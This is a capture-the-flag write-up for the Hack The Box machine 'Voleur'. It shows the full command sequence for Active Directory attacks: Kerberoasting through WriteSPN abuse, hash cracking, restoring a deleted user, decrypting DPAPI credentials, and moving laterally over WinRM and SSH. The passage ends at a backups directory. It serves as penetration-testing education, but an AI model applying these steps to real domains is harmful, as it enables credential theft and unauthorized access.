



## Kudos
This is by far the single most educational box I've encountered on HTB for deailing with nuances of Active Directory and Kerberos. The general idea of what to do is almost evident from the first line of information you obtain, but the only way you can follow through is by understanding the steps. It's almost like seeing some math equations on the chalkboard and being told, "Show me the work to get there". It's really great and I refined a lot of the knowledge I had floating around in my head. It was made by [baseDN](https://app.hackthebox.com/users/1514235) and I don't know this guy, but he designed my now favorite box, so thank you.

## Overview
Voleur is a medium-difficulty Windows Box that is primarily focused on Avtice-Directory and Kerberos. We are given some initial credentials and we can use those to get a ticket from the KDC, to find the treasure trove of information we'll need for the box. A list of some usernames and passwords for a service accounts and and one deleted user. Bloodhound shows one service account has a `WriteSPN` privilege over another, this allows us to kerberoast this account and grab it's hash and successfully crack it offline. This gives us a foothold on the machine, and we can then utilize another service_accounts credentials to restore the deleted user, this user has access to their archived folder which contains their dpapi credential information. Cracking this results in another user's information for us to move into, Jeremy. Jeremy is has the highest access and can read a note from the admin that shows that ssh port is actually useful and we have an id_rsa identity file to use for backups. So we utilize the appropriate account, find the backups folder and there we find our treasure keys, the ntds/system/security dumps. We dump those offline, request a new ticket with the Admin credentials and login with evil-winrm claim our root flag.

This writeup will cover a lot of the nice learning experiences I had along the way.


## Initial Recon

We're given some initial creds:
- ryan.naylor:HollowOct31Nyt

### nmap
We run the typical nmap:
```bash
nmap -sCV -oA nmap/voleur -p- -vv 10.10.11.76

```
```
# Nmap 7.97 scan initiated Tue Jul  8 13:32:41 2025 as: nmap -vv -sCV -oA nmap/voleur -Pn -T4 --min-rate 1000 -p- 10.10.11.76
Nmap scan report for 10.10.11.76
Host is up, received user-set (0.13s latency).
Scanned at 2025-07-08 13:32:41 HST for 233s
Not shown: 65514 filtered tcp ports (no-response)
PORT      STATE SERVICE       REASON  VERSION
53/tcp    open  domain        syn-ack Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack Microsoft Windows Kerberos (server time: 2025-07-09 07:34:53Z)
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: voleur.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack
464/tcp   open  kpasswd5?     syn-ack
593/tcp   open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack
2222/tcp  open  ssh           syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 42:40:39:30:d6:fc:44:95:37:e1:9b:88:0b:a2:d7:71 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC+vH6cIy1hEFJoRs8wB3O/XIIg4X5gPQ8XIFAiqJYvSE7viX8cyr2UsxRAt0kG2mfbNIYZ+80o9bpXJ/M2Nhv1VRi4jMtc+5boOttHY1CEteMGF6EF6jNIIjVb9F5QiMiNNJea1wRDQ2buXhRoI/KmNMp+EPmBGB7PKZ+hYpZavF0EKKTC8HEHvyYDS4CcYfR0pNwIfaxT57rSCAdcFBcOUxKWOiRBK1Rv8QBwxGBhpfFngayFj8ewOOJHaqct4OQ3JUicetvox6kG8si9r0GRigonJXm0VMi/aFvZpJwF40g7+oG2EVu/sGSR6d6t3ln5PNCgGXw95pgYR4x9fLpn/OwK6tugAjeZMla3Mybmn3dXUc5BKqVNHQCMIS6rlIfHZiF114xVGuD9q89atGxL0uTlBOuBizTaF53Z//yBlKSfvXxW4ShH6F8iE1U8aNY92gUejGclVtFCFszYBC2FvGXivcKWsuSLMny++ZkcE4X7tUBQ+CuqYYK/5TfxmIs=
|   256 ae:d9:c2:b8:7d:65:6f:58:c8:f4:ae:4f:e4:e8:cd:94 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMkGDGeRmex5q16ficLqbT7FFvQJxdJZsJ01vdVjKBXfMIC/oAcLPRUwu5yBZeQoOvWF8yIVDN/FJPeqjT9cgxg=
|   256 53:ad:6b:6c:ca:ae:1b:40:44:71:52:95:29:b1:bb:c1 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAILv295drVe3lopPEgZsjMzOVlk4qZZfFz1+EjXGebLCR
3268/tcp  open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: voleur.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack
5985/tcp  open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        syn-ack .NET Message Framing
49664/tcp open  msrpc         syn-ack Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack Microsoft Windows RPC
62028/tcp open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
62029/tcp open  msrpc         syn-ack Microsoft Windows RPC
62041/tcp open  msrpc         syn-ack Microsoft Windows RPC
62046/tcp open  msrpc         syn-ack Microsoft Windows RPC
62060/tcp open  msrpc         syn-ack Microsoft Windows RPC
Service Info: Host: DC; OSs: Windows, Linux; CPE: cpe:/o:microsoft:windows, cpe:/o:linux:linux_kernel

Host script results:
| smb2-time: 
|   date: 2025-07-09T07:35:47
|_  start_date: N/A
|_clock-skew: 7h59m55s
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 48495/tcp): CLEAN (Timeout)
|   Check 2 (port 28595/tcp): CLEAN (Timeout)
|   Check 3 (port 60782/udp): CLEAN (Timeout)
|   Check 4 (port 34236/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jul  8 13:36:34 2025 -- 1 IP address (1 host up) scanned in 233.16 seconds

```


We have a lot of ports open typical of a windows box with an AD Environment. There's a curious SSH port that is definitely unusual for a typical environment, my first thought was WSL or some other weird container that may be on the box. Because it clearly says Ubuntu, when we're targeting a windows box and everything else screams windows. 

Notice the script results too and there's a clock-skew: 7h 59m 55s, or basically 8hours. Important information to note.

Just in case there's more boxes or internal networks being exposed. We see DNS is open, so attempt a zone transfer for good measure.
```bash
dig axfr voleur.htb @10.10.11.76 +short
; Transfer Failed.
```


So we see what we can access, because the SSH was the oddball out, I tried that first.
```bash
ssh ryan.naylor@10.10.11.76 -p 2222
ryan.naylor@10.10.11.76: Permission denied (publickey).
```

Seems like only publickey authentication is allowed, and all we have currently is a password,so no go here.

I always try and run a bloodhound collection via nxc first to give me a layout before I start poking too much.
```bash
nxc ldap 10.10.11.76 -u ryan.naylor -p HollowOct31Nyt --bloodhound -c all
LDAP        10.10.11.76     389    DC               [*] None (name:DC) (domain:voleur.htb)
LDAP        10.10.11.76     389    DC               [-] voleur.htb\ryan.naylor:HollowOct31Nyt STATUS_NOT_SUPPORTED
```
Okay, so this typically means username/password authentication is disabled and we have to rely on that one open port of 88 to help us along, that being Kerberos.

### krbconfig setup
This requires us to make a krb5_config file. This is quite easy when you understand what's going on, I however did not and got thrown off quite a bit by nmap's output of `voleur.htb0` above and ended up making a pull request for nmap, wrote about that [here](https://blog.chin-tech.org/posts/the-configuration-of-hades-dog/).
I also made a [utility script](https://raw.githubusercontent.com/Phaze228/dotfiles/refs/heads/master/util_scripts/.local/bin/mkkrbconfig) for this purpose
So build your configuration anyway, you like. I'll use my script and do not forget to add some domains to your hosts file. Always add the domain controller, because it will end up trying to contact that.
```bash
sudo echo "10.10.11.76 dc.voleur.htb voleur.htb" >> /etc/hosts
mkkrbconfig 10.10.11.76
export KRB5_CONFIG=voleur.htb.krb.conf
kinit ryan.naylor
export KRB5CCNAME=/tmp/krb5cc_1000
```


Now let's try this again, but now we're using it with kerberos so we need to add a few options:
- `-k` for kerberos
- `--use-kcache` to utilize our current ticket we already initialized.
And because we're using our ticket we don't have to provide any usernames or passwords, so let's just try this:

```bash
nxc ldap dc.voleur.htb -k --use-kcache
LDAP        dc.voleur.htb   389    DC               [*] None (name:DC) (domain:voleur.htb)
LDAP        dc.voleur.htb   389    DC               [-] voleur.htb\ from ccache KRB_AP_ERR_SKEW
```

### Bypassing clock skew
Ah, yeah. Clock Skew. Kerberos is particularly sensitive to time, I think you typically get a few minutes of wiggle room and from our output earlier, we have an 8 hour difference. So... how do we adjust this?
There's a few methods, you can use things like `ntpdate voleur.htb` to try and sync your clock with the box's clock, or any other time utility that does syncing. However, I like my system clock untouched, and there's a convenient utility for this: `faketime`, which wraps the program's execution with your desired start time.

```bash
faketime -f +8hr nxc ldap dc.voleur.htb -k --use-kcache
LDAP        dc.voleur.htb   389    DC               [*] None (name:DC) (domain:voleur.htb)
LDAP        dc.voleur.htb   389    DC               [+] voleur.htb\ryan.naylor from ccache
```


So we can grab our bloodhound now, you will get an error to provide a DNS server, so it knows how to find the DC. That's just adding the --dns-server 10.10.11.76
```bash
faketime -f +8hr nxc ldap dc.voleur.htb -k --use-kcache --dns-server 10.10.11.76 --bloodhound -c all
```

### Bloodhound
That will give us our bloodhound output that we can upload and search around.
We see our ryan user is apart of the First-Line Technicians....


And there's no obvious links from First-Line out anywhere. However, this a remote management group, which likely holds the keys to a shell on the system.


Jeremy is a member of Third-Line Technicians and the SVC_WINRM doesn't have anything special. So we'll just keep an eye out for these in our recon.

We know that we're not going to be able to get a shell because our user wasn't in the remote-management group, we can always try, but we'll some errors. So the only other file access points prevalent in our nmap output would be SMB. 
Let's see what our user can see, especially because they are a member of a support technician group.

### SMB Access

```bash
faketime -f +8hr nxc smb dc.voleur.htb -k --use-kcache --shares
SMB         dc.voleur.htb   445    dc               [*]  x64 (name:dc) (domain:voleur.htb) (signing:True) (SMBv1:False) (NTLM:False)
SMB         dc.voleur.htb   445    dc               [+] VOLEUR.HTB\ryan.naylor from ccache
SMB         dc.voleur.htb   445    dc               [*] Enumerated shares
SMB         dc.voleur.htb   445    dc               Share           Permissions     Remark
SMB         dc.voleur.htb   445    dc               -----           -----------     ------
SMB         dc.voleur.htb   445    dc               ADMIN$                          Remote Admin
SMB         dc.voleur.htb   445    dc               C$                              Default share
SMB         dc.voleur.htb   445    dc               Finance
SMB         dc.voleur.htb   445    dc               HR
SMB         dc.voleur.htb   445    dc               IPC$            READ            Remote IPC
SMB         dc.voleur.htb   445    dc               IT              READ
SMB         dc.voleur.htb   445    dc               NETLOGON        READ            Logon server share
SMB         dc.voleur.htb   445    dc               SYSVOL          READ            Logon server share

```

We verify that NTLM isn't allowed in that output, as well as noting that we have an IT share we have read access to!

I used `smbclient.py` to explore it:
```bash
faketime -f "+8hr" smbclient.py -k dc.voleur.htb
#Type help for list of commands
> use IT
> ls
drw-rw-rw-          0  Tue Jan 28 23:10:01 2025 .
drw-rw-rw-          0  Mon Jun 30 11:08:33 2025 ..
drw-rw-rw-          0  Tue Jan 28 23:40:17 2025 First-Line Support
> cd First-Line Support
> ls
drw-rw-rw-          0  Tue Jan 28 23:40:17 2025 .
drw-rw-rw-          0  Tue Jan 28 23:10:01 2025 ..
-rw-rw-rw-      16896  Thu May 29 12:23:36 2025 Access_Review.xlsx
> get Access_Review.xlsx
```

When you try an open this file it's password protected, and this is where `john` of the ripper fame comes in, with it's numerous utilities to transform files that has passwords into a nicely crackable format. In this case it's a `.xlsx` file so we use `office2john`
```bash
office2john.py Access_Review.xlsx > access.hash
john access.hash /seclists/rockyou.txt --format=office
```

This reveals it's a super easy password and we are able to open it up.



Now this is what I mentioned in the Kudos at the start of this box. From here it's almost clear what must be done. You can kind of plan the route out from just this file.
You have the list of the users on the left, First, Second, Third and then Admin. And we take note of a deleted user, with an explicit "we reset this password". It seems clear we're at the First-Line and have escalate to the Second-Line by either Lacie or the more notable, deleted user Todd and then somehow get to Jeremy, which might hold the key.  And we have at least 2 service accounts with particular passwords and one with a potentially reset password, so it feels likely that password might be more crackable than the rest.
So we clearly have some passwords and a way forward, let's see what we have access to and where can we go.



We get a lot from the svc_ldap account. It looks like we can do almost everything we want from him. Since he can write a ServicePrincipalName to the svc_winrm account. Which means we can Kerberoast it and then we can get a shell, hopefully.

And he's also member of the `Restore_Users` group which aptly named should allow us to restore a user. Particularly the deleted one, which notably, we don't see in the bloodhound feed. So is it possible? There's actually a privilege in AD that's called [`Reanimate-Tombstone`](https://reintech.io/blog/handling-active-directory-tombstoned-objects-reanimation), which honestly was news to me. But one step at a time.

We'll try the WriteSPN abuse first.
There's a convenient, but not entirely user-friendly script suggested by bloodhound: `targetedKerberoast.py`
I say not entirely user-friendly, because the error you can get for omitting certain vairables is very unintuitive. If you're using kerberos you need to specify the --dc-host option specifically otherwise it will try to do an anonymous login to find it itself. But as we have learned, we can only authenticate with kerberos. So If you don't provide it, it will break, with I think a dumb error.
However, it's a useful script because it writes the SPN and also removes it, so it's a good tool, to keep the environment as we originally see it.

## Foothold & Lateral Movement

### svc_winrm
```bash
kinit svc_ldap
faketime -f +8hr ./targetedKerberoast.py -k --request-user svc_winrm -f hashcat -D voleur.htb --dc-host dc.voleur.htb -d voleur.htb
[*] Starting kerberoast attacks
[*] Attacking user (svc_winrm)
[+] Printing hash for (svc_winrm)
$krb5tgs$23$*svc_winrm$VOLEUR.HTB$voleur.htb/svc_winrm*$608db01963ed34caf918e475a9d7f3c5$e471ebb50066ffae8db9b6925ca4a325f745ed62a2161e56c4537691c7f715c485153de0eccbcbc3e6e5054278900b4e1adf991a198d3e75455af16530ca96cfbfe73065e175ca519f9216812537d522d89e920ad26bf3edb6f4ce1b66ebcb2765c4923aff283bfe6cc878677c851b8f0e6e4d9289cefd9d1fb60faff519e48f40468614d8c267d77aefa217ebd01658b4a779b262e04276a771afd0f960ba490aff0e468ffd937a3860f7033c8db6a55799f8989be5028b79deaaf917ee59615719096b9d3c5c03fbe539723caca67555bc1db6bee1dc079631c0a2aa4c341c69aba137e631aae8d40721ccfa1cadc87ee65792bda5f4865e61ba4c146fdf264e0b05f65bd3f8598d2b36569d3028a204a3c011564504214173903a2f17baade698c80dd71dfc88fc53426e459f63b57feb1369bb91039e120445eae89a17bf35212a449ca8ee2bc88cdc4d36d40f149bdfdd763b507ed5e8982d176ef5f1ec076ca41cb1d557019aa427a06d9070c6a4124c60c1777485dd56fd840b0c545d4f818dd05af57735464649f3abfe1058261b29316a31175291f062d44b067f46b591a860539c8af1291e1b0c3dff365ab91d1426b93eca0e5ea1c3158e80db7edee59817e0bd66b13d6a3807360bfb6b7b77720f53cca5bdbcaf4d7e3387d14cbd85fbb0c3e0022da6438c77916cb930744ea796effd98991da6686ad0bfdf8c44aec21da509c5501a495e5a08f43082d35c456844e5bb061206c8c561aec0a511c756b5d0be161d6fba27bc82f909964fce7f941595ad1e6ffb44fc0274050ca31a9a192067e5e3cb77304afd3dc3d205a3217dc41d3f985b1dab581b5002c1b94e4e86773f288d35ed4d0962f527b995ce58f191ca7a6029cffc89010a9f429bd2f6abb0732f2da176b99e878d71074229c632a3d66adf5d08972bf66d9a63d3192da3cfa4968e61bb923746ffc38be020616361951ba8815bb073683aead76c832ce38190eef466586c2abd3b6616a7cb05bbea0444b7c3422abe16ba83aa440a4839f0e33ced2ae1eea5327bc8c9c7211d77f15c8c45af737a8fe4453e4e7f380a92b9f9c5bb385f50f64f36a1d13dc3165fd82e8cc9b5f41395f6f4399fdf16649fc232b5bc71206968b41abfa2db984a52d2e402eac8f997e443df52cd9277fd84ed3eeb42f212b11dd7daf482c04caab4cb33599f2de04a8897e4aec5ffc64e775f3836097b1468d7dda7907c1432048e289017b5e0ec691b1c93fecb0d9a0b16ee9b4b806f1c8bbdda648c636114f80fb36e40461989af5f6c5d4b144524fa4d3ad4eb19cfec0419b7089d45ff980a506f42f0301c0fca0742c27cc8bb92142e4ee787d2920dccbb5e18487564c88c10463a4d4af2dccd0bd739a3a9d6ef7e35295dfc226b8bb40ac800c82b3d97f13502f5ee9123090cb78ecc33f40a7b4c3bbdcc3c6df2d1b5267258669b998aa
```

Run hashcat, with rockyou and we find the password.

```
$krb5tgs$23$*svc_winrm$VOLEUR.HTB$VOLEUR.HTB/svc_winrm*$c747e7bd30501452d213927ba3f2c0ca$77696a870310affcf0d275105e6901962b920f8648daf6cc36741ac3291a44e7c5d82c2766ef7951fdb305441fa8d737facb35bb0ddb7f617f04c246e64423d4629a5383c0b57ed20b96c71cbda45d0ee1ecaebcbedc16cce9c8708fdfaac2619bb2ffbb3e5855ca0a68e936bf7890a9efda974bd655b41585b967c0a7816674d7b190973471f6f258314c4a4dfe8bbce24c7d1282c450001ee3f1c242b92c63434ae31a94d558bf44801d542e8f125881313599c464eb7f4a897b0a83d297ec57ab0e8b6f07e90bba2008a96eaf2e2fc462e237c5b38a8628e070620b1941b1d9e7429ca45206a338a2871699fdd00548f060079db50618f333aee65992d531bbb43a513655ab62b2184c20e1cf714aced7e682f36ff226e4cf8b55ce5b97cb654d4a205cf7541f91d4d9a97ba7fd810ea5c511c1442bea4484de26a800eaa6fbe19e5ab3379852d5a26dc0621c82edaad1b48962c024bab19e8d03ef1dbeddcb4ff475f8cbb89069cfb848e8691dfe294a7d23953dce33caa270231cbba49ef368a8b5c537e628332a76f86ac178caa6663ae0c5bfb2a68de56de81f51ae27148fb613ddab9bb2c1300af5ba74e778566708ae7a8bcc96728c7aa81672c48f46a477c1ef1ad81536be0350dcc587b5068c75550a695dd04d7b926aaa1856da2f95f4a621237da285c8cce1dae8a102b5dafb8a31db15f008069f0c90532f982d28abbf62a81139c45309f7d10fce1eec9504a04ad93c7342ee27573988b40165005a1bdfed579871dc16152af586cb95bbb5283c651b4a987e0ee47d373186f399618f551743b0aec2e9e360786172e817c14b8d66afc0fb57eb30c85f7af4231cee754db55297a34956b7644e79b7ab18549812ac39a5e76be639bc430c34168f4cd9bf27714a3efc8b19da79d882397bbb8a718da9c2fab6801b593234ed7a079b5a8a94a4566a984f47a5a37b9802206495ce2435c10d7524a4bce444eba5d1d6d6af4740ecae11de3332168965788957108202796261deed103e310eec81fc36635ea362c37909219c0af713204081bd1cfbb41572a410d635e30c5a4c1bb84c85f2c583d446673d4ccbd7e1341edda9b34694cb97ee6ceefe30a45d5e61182bed924badc8045cb133a54cc513c8ac5e5e1628d508ba7f76482c938301a3670c1cbdff8bbbe0af85adcdafbe725d0cc92a4757d335abc5fcdbe5ef25d9bb67dd126f014e9fe5c5002ef6342dba9a52a45e55ee71c6608c509991406d240a3c6cf02d10b7ddc500e1bcb19c95a89e4f675636e3b9bccd5fee826be508d3055c274d21f227a6a64236ca3462d90917d2f411834c3921a5ae1edf739d27c0505e8d83c7bfb8406d3b91c793fa44d667cde3b57601014b814b017c2216ea95fa8a3378b16f26422aa66ecbd61807e3c910f784de13da5eb88efadbe18aad83e3fc5fcdf89a4b6ecbc36e5489b60128d890a2fa4dc920991a8bb98cfb866afe7047c7e153c05225169a20a7bede106feedb56438fb:AFire<redacted>afi
```


And if we remember, this user actually has remote management privileges, so let's try to get a winrm session.

```bash
kinit svc_winrm
evil-winrm -i dc.voleur.htb -r voleur.htb
```

```powershell
type ..\Desktop\user.txt
<redacted>
```


Just in case, I tried enumerating the box a bit seeing if there's any surprising programs around, but I didn't see anything useful. And our user has a slightly interesting privilege, but nothing that we can escalate with:
```
*Evil-WinRM* PS C:\Users\svc_winrm\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

If you google `SeMachineAccountPrivilege` You'll get `samAccountName` spoofing, which involves Kerberos not issuing a Privilege Attribute Certificate (PAC). Trying `NoPac.exe` resulted in errors and using `Rubeus.exe` and comparing ticket sizes of /nopac and not, revealed the same size, which means it's not vulnerable. Since the PAC is issued either way.


So let's see if we can make use of Restore_Users group.
We can make use of the Get-ADObject if the ActiveDirectory module is available. Which no error on import is a good sign!

```powershell
Import-Module ActiveDirectory
Get-ADObject -Filter 'Name -like "*lacey*"' -IncludeDeletedObject


Deleted           :
DistinguishedName : CN=Lacey Miller,OU=Second-Line Support Technicians,DC=voleur,DC=htb
Name              : Lacey Miller
ObjectClass       : user
ObjectGUID        : 1fa1a4cc-164e-47cc-921a-e1db13d1a327
```


That works, let's try to find our user Todd.Wolfe
```powershell
Get-ADObject -Filter 'Name -like "todd"' -IncludeDeletedObject
```
We get nothing?
This is one reason I always hate deailing with Windows Machines, they have such a confusing pattern of providing you with revealing helpful information and other times they seem to be more security conscious. 
We don't get an output because we're querying as svc_winrm. And AD is saying, "For you, there's no one named Todd"

We can't login as svc_ldap to run the query, but we can luckily, pass the credentials in, which you can find via:
`Get-Help Get-ADObject`

```powershell
$pass = ConverTo-SecureString -AsPlainText -Force <pass>
$cred = New-Object System.Management.Automation.PSCredential("voleur.htb\svc_ldap", $pass)
Get-ADObject -Filter 'Name -like "todd"' -IncludeDeletedObject -Credential $cred


Deleted           : True
DistinguishedName : CN=Todd Wolfe\0ADEL:1c6b1deb-c372-4cbb-87b1-15031de160db,CN=Deleted Objects,DC=voleur,DC=htb
Name              : Todd Wolfe
                    DEL:1c6b1deb-c372-4cbb-87b1-15031de160db
ObjectClass       : user
ObjectGUID        : 1c6b1deb-c372-4cbb-87b1-15031de160db
```

So he does exist!
Let's get him back, the command for that as linked aboved is `Restore-ADObject` we can pipe it in from the previous command for simplicity.

```powershell
Get-ADObject -Filter 'Name -like "todd"' -IncludeDeletedObject -Credential $cred | Restore-ADObject -Credential $cred
```

Then we can get out and try and make a ticket for todd, with the reset password
```bash
kinit todd.wolfe

```
### Shell as todd.wolfe


I personally had no luck trying to use winrm again, even though if you run bloodhound again after the user is restored it shows he has Remote-Management access. You get an invalid token error though.
Since the user has access to the IT share as a Second-Line support, that's all we need, so let's use smbclient again.

Upon running it we find an `Archived Users` directory which holds todd.wolfe and his user folder.
```
# ls
drw-rw-rw-          0  Wed Jan 29 05:13:16 2025 .
drw-rw-rw-          0  Wed Jan 29 05:13:06 2025 ..
drw-rw-rw-          0  Wed Jan 29 05:13:06 2025 3D Objects
drw-rw-rw-          0  Wed Jan 29 05:13:09 2025 AppData
drw-rw-rw-          0  Wed Jan 29 05:13:10 2025 Contacts
drw-rw-rw-          0  Thu Jan 30 04:28:50 2025 Desktop
drw-rw-rw-          0  Wed Jan 29 05:13:10 2025 Documents
drw-rw-rw-          0  Wed Jan 29 05:13:10 2025 Downloads
drw-rw-rw-          0  Wed Jan 29 05:13:10 2025 Favorites
drw-rw-rw-          0  Wed Jan 29 05:13:10 2025 Links
drw-rw-rw-          0  Wed Jan 29 05:13:10 2025 Music
-rw-rw-rw-      65536  Wed Jan 29 05:13:06 2025 NTUSER.DAT{c76cbcdb-afc9-11eb-8234-000d3aa6d50e}.TM.blf
-rw-rw-rw-     524288  Wed Jan 29 02:53:07 2025 NTUSER.DAT{c76cbcdb-afc9-11eb-8234-000d3aa6d50e}.TMContainer00000000000000000001.regtrans-ms
-rw-rw-rw-     524288  Wed Jan 29 02:53:07 2025 NTUSER.DAT{c76cbcdb-afc9-11eb-8234-000d3aa6d50e}.TMContainer00000000000000000002.regtrans-ms
-rw-rw-rw-         20  Wed Jan 29 02:53:07 2025 ntuser.ini
drw-rw-rw-          0  Wed Jan 29 05:13:10 2025 Pictures
drw-rw-rw-          0  Wed Jan 29 05:13:10 2025 Saved Games
drw-rw-rw-          0  Wed Jan 29 05:13:10 2025 Searches
drw-rw-rw-          0  Wed Jan 29 05:13:10 2025 Videos
#
```

If you remember what juicy things are accessible in user folder, you'd know where this is headed.

We're looking for DPAPI. Because we now have a user,

```
# pwd
/Second-Line Support/Archived Users/todd.wolfe/AppData/Roaming/Microsoft/Protect/S-1-5-21-3927696377-1337352550-2781715495-1110
# ls
drw-rw-rw-          0  Wed Jan 29 05:13:09 2025 .
drw-rw-rw-          0  Wed Jan 29 05:13:09 2025 ..
-rw-rw-rw-        740  Wed Jan 29 03:09:25 2025 08949382-134f-4c63-b93c-ce52efc0aa88
-rw-rw-rw-        900  Wed Jan 29 02:53:08 2025 BK-VOLEUR
-rw-rw-rw-         24  Wed Jan 29 02:53:08 2025 Preferred


/Second-Line Support/Archived Users/todd.wolfe/AppData/Roaming/Microsoft/Credentials
# ls
drw-rw-rw-          0  Wed Jan 29 05:13:09 2025 .
drw-rw-rw-          0  Wed Jan 29 05:13:09 2025 ..
-rw-rw-rw-        398  Wed Jan 29 03:13:50 2025 772275FAD58525253490A9B0039791D3

/Second-Line Support/Archived Users/todd.wolfe/AppData/Local/Microsoft/Credentials
# ls
drw-rw-rw-          0  Wed Jan 29 05:13:06 2025 .
drw-rw-rw-          0  Wed Jan 29 05:13:07 2025 ..
-rw-rw-rw-      11068  Wed Jan 29 03:06:56 2025 DFBE70A7E5CC19A398EBF1B96859CE5D
```

get those files then we can use pypykatz to do some decryption.

A high-level overview of what's happening here:
Masterkeys are used to encrypt various user secrets/credentials
Masterkeys are encrypted via a pre-key generated by the users password, so they can also access them.
What we're doing is reversing that process by generating a pre-key, to decode the masterkey and then use that masterkey to decrypt credentials.

```bash
pypykatz dpapi prekey password S-1-5-21-3927696377-1337352550-2781715495-1110 $todd_wolfe_pass -o dpapi.prekey
pypykatz dpapi masterkey 08949382-134f-4c63-b93c-ce52efc0aa88 dpapi.prekey -o masterkey.dec
pypykatz dpapi credential masterkey.dec 772275FAD58525253490A9B0039791D3
type : DOMAIN_PASSWORD (2)
last_written : 133826289190701021
target : Domain:target=Jezzas_Account
username : jeremy.combs
unknown4 : b'q\x00T\x003\x00V\x009\x00p\x00L\x00X\x00y\x00N\x007\x00W\x004\x00m\x00'
```

We have a username and an unknown4. That unknown4 is not data that is "expected" or "known" by pypykatz, but in your years of using a computer, what is typically following a username? A password.
So we clearly have a hexadecimal representation of a password. Windows to buck the trend of convenience uses UTF-16-LE. So to find the bread and butter of this:

```bash
jeremy_pass=$(printf 'q\x00T\x003\x00V\x009\x00p\x00L\x00X\x00y\x00N\x007\x00W\x004\x00m\x00' | iconv -f UTF-16LE -t UTF-8)
```

We utilize kinit one more time to use Jeremy, who if we noticed earlier, not only has remote-management privileges, but is also a member of the third-line support technicians.

So back to win-rm and navigate to the `C:\IT` Directory to see what goodies are in store.
### jeremy.combs

```powershell
*Evil-WinRM* PS C:\IT\Third-Line Support> ls


    Directory: C:\IT\Third-Line Support


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----         7/12/2025   6:58 AM                Backups
-a----         1/30/2025   8:10 AM           2602 id_rsa
-a----         1/30/2025   8:07 AM            186 Note.txt.txt

```

Now, if you remember the SSH port, your eyes might brighten already. You can see a backups folder so your spidey-sense should be tingling and we can read the note for good measure and know what we must do.
Oh what were the service accounts again? ldap, winrm, iis...and backup
download or copy the id_rsa and let's ssh into that port we saw earlier.
```bash
ssh -p 2222 -i id_rsa svc_backup@voleur.htb
```
### svc_backup - Path to admin

If you know linux, you can guess where the Windows drive might be by convention, and you'd be right, in the /mnt folder.

```bash
svc_backup@DC:/mnt/c/IT/Third-Line Support/Backups$ ls -R
.:
'Active Directory'   registry

